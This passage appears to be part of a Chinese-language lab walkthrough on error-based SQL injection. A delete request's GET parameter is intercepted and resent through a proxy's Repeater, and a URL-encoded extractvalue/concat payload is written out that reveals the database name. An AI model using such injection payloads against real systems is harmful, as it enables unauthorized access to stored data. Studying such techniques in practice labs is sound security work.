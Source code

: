 当光标移动到删除上的时候，左下角出现请求

> <img src="./IMG/~VIZN~Q~A9[3`_79Q_IMI%4.png">

抓包，发现是GET传参，发送到Repeater构建payload，注意需要转换为url编码

> <img src="./IMG/@Z{(3EIOY0KKJD]_5T9]P`P.png">

查询数据库

```sql
1%20and%20extractvalue(1,concat(0x5c,(database())))
```

